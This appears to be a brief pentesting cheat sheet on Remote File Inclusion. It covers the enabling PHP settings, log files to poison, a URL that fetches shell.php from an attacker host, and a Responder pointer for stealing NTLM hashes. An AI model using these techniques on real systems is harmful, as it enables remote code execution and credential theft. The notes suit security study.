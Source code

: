 # Manual

## Remote File Inclusion (RFI)

### Conditions

```
$ cat /etc/php/7.4/apache2/php.ini
..[snip]..
allow_url_fopen = On
allow_url_include = On
..[snip]..
```

- Poison log files to insert payload

```
/var/log/apache/access.log
/var/log/nginx/error_log
/var/log/auth.log
```

### General

```
http://<attacker_IP>/shell.php
```

### Windows

- Grab NTLM hashes with Responder

## References

- [Hacking Articles: Comprehensive Guide on Local File Inclusion (LFI)](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

- [Local File Inclusion Code Execution](https://resources.infosecinstitute.com/topic/local-file-inclusion-code-execution/)

- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)